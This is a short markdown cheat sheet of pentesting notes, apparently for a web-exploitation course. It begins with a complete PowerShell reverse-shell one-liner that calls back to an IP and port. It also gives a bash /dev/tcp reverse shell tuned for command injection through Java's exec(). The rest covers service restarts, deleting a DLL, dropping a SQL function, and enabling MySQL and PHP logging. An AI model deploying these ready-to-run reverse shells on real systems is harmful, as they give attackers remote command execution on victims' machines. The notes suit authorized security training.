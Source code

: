 ## Powershell Rev Shell One-Liner
`$client = New-Object System.Net.Sockets.TCPClient('192.168.119.132',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};`

### Stop service
`net stop "[SERVICE]"`
`EX: net stop "Applications Manager"`

### Delete custom dll
`del [DLL_FILE]`
`EX: del c:\awae.dll`

### Restart service
`net start "[SERVICE]"`
`EX: net start "Applications Manager"`

### Drop the function
`DROP FUNCTION [FUNCTION];`
`EX: DROP FUNCTION test(text, integer);`

### Build C Program
1. Save code as .c
2. `gcc [PROGRAM].c -o [PROGRAM_NAME]`


### Reverse shell when you have command injection through java's exec() method
`/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/1.2.3.4/4242<&1`

### MySQL
Log File: my.cnf
Enable Logging:
    ~ Search for "log"
    ~ Uncomment the following lines:
        general_log_file        = /var/log/mysql/mysql.log
        general_log             = 1
    ~ Restart service
        sudo systemctl restart mysql

### PHP
Log File: php.ini
Enable Logging:
    ~ Search for "display_errors"
    ~ Uncomment and set to "On"
    ~ Restart service
        sudo systemctl restart [WEB_SERVER]

